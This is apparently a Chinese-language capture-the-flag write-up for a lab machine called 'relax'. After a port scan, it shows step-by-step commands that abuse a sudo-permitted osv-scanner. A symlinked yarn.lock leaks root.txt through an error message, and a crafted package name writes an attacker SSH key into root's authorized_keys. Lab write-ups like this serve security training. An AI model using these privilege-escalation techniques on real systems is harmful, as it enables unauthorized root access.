



# relax_Ahiz

# 信息收集

```
nmap -p-  192.168.100.41
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-12 04:27 EDT
Nmap scan report for 192.168.100.41
Host is up (0.0018s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp
MAC Address: 08:00:27:56:9D:EF (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.10 seconds

```

‍

‍







‍

```
react2shell@relax:/opt/CVE-2025-55182$ cat /home/react2shell/user.txt 
flag{266a1f7c2e2345169d3bc448da45eae6}

```

# root.txt

```
sudo -l
Matching Defaults entries for react2shell on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User react2shell may run the following commands on localhost:
    (root) NOPASSWD: /root/osv-scanner

```

可以无密码以 root 身份运行 `/root/osv-scanner`。

`osv-scanner` 可以扫描 lockfile，

`osv-scanner`​ 是按文件名判断用哪个解析器的 要把符号链接命名成它认识的名字，最稳的是 `yarn.lock`

```
react2shell@relax:/tmp$ mkdir /tmp/Ahiz1
react2shell@relax:/tmp$ cd /tmp/Ahiz1/
react2shell@relax:/tmp/Ahiz1$ ln -s /root/root.txt yarn.lock
react2shell@relax:/tmp/Ahiz1$ sudo -n /root/osv-scanner scan source  --lockfile /tmp/Ahiz1/yarn.lock --format json 2>&1
Starting filesystem walk for root: /
Failed to determine version of flag{7f791f89aca4f442da5d968f1d01eedb} while parsing a yarn.lock
Scanned /tmp/Ahiz1/yarn.lock file and found 1 package
End status: 0 dirs visited, 1 inodes visited, 1 Extract calls, 1.624142ms elapsed, 1.62422ms wall time
Filtered 1 local/unscannable package/s from the scan.
{
  "results": [],
  "experimental_config": {
    "licenses": {
      "summary": false,
      "allowlist": null
    }
  }
}

```

通过错误报告 得到root.txt

‍

# 提权到root

通过查看111的wp

‍

```
sudo cat /home/kali/.ssh/id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBK47EAyAcDqxMYzZBPCGRGYrfsvIRWPfDb8cAhu6tJo kali@kali

```

‍

```
react2shell@relax:/tmp/Ahiz1$ mkdir -p /tmp/Ahiz1

cat > /tmp/Ahiz1/osv-scanner.json <<'EOF'
{
  "results": [
    {
      "packages": [
        {
          "package": {
            "name": "\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBK47EAyAcDqxMYzZBPCGRGYrfsvIRWPfDb8cAhu6tJo kali@kali\n",
            "version": "1.0.0",
            "ecosystem": "npm"
          }
        }
      ]
    }
  ]
}
EOF

```

```
这是 osv-scanner 支持的自定义 lockfile 格式。官方逻辑是：如果你有自己的依赖解析结果，可以把依赖包信息写成 osv-scanner.json，然后用：
--lockfile osv-scanner:/path/to/osv-scanner.json
让 osv-scanner 按它自己的结果格式读取。
关键字段是：
"results"
扫描结果列表。
"packages"
包列表。
"package"
单个包的信息。
"name"
包名。这里被塞入了 SSH 公钥。
"version": "1.0.0"
伪造的版本号，随便给一个合法版本即可。
"ecosystem": "npm"
```

‍

```
react2shell@relax:/tmp/Ahiz1$ sudo -n /root/osv-scanner scan . \
  --output-file /root/.ssh/authorized_keys \
  --all-packages \
  --lockfile osv-scanner:/tmp/Ahiz1/osv-scanner.json \
  -f html \
  --offline \
  --no-resolve
Scanning dir .
Starting filesystem walk for root: /
Scanned /tmp/Ahiz1/osv-scanner.json file and found 1 package
End status: 1 dirs visited, 3 inodes visited, 1 Extract calls, 540.146µs elapsed, 540.207µs wall time
could not load db for npm ecosystem: unable to fetch OSV database: no offline version of the OSV database is available
HTML output available at: /root/.ssh/authorized_keys

```

‍

```
sh -i /home/kali/.ssh/id_ed25519 root@192.168.100.41
The authenticity of host '192.168.100.41 (192.168.100.41)' can't be established.
ED25519 key fingerprint is: SHA256:MjoUe5ON03T2UcSPmlU3evmpGUywqf/3IUm0+1p77cI
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:44: [hashed name]
    ~/.ssh/known_hosts:50: [hashed name]
    ~/.ssh/known_hosts:52: [hashed name]
    ~/.ssh/known_hosts:53: [hashed name]
    ~/.ssh/known_hosts:54: [hashed name]
    ~/.ssh/known_hosts:56: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.100.41' (ED25519) to the list of known hosts.
Linux relax 7.0.11-1-liquorix-amd64 #1 ZEN SMP PREEMPT liquorix 7.0-12.1~trixie (2026-06-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jun 22 00:11:35 2026 from 192.168.56.4
root@relax:~# ls
osv-scanner  root.txt
root@relax:~# cat root.txt 
flag{7f791f89aca4f442da5d968f1d01eedb}
root@relax:~# id
uid=0(root) gid=0(root) groups=0(root)
root@relax:~# 

```

# 提权链

```
react2shell 用户可 sudo 运行 /root/osv-scanner
        ↓
osv-scanner 支持读取自定义 osv-scanner.json
        ↓
我们把 SSH 公钥塞进 package.name
        ↓
osv-scanner 以 root 写 HTML 报告到 /root/.ssh/authorized_keys
        ↓
authorized_keys 忽略 HTML 垃圾行，但识别其中的合法 ssh-ed25519 公钥行
        ↓
使用对应私钥 SSH 登录 root
```
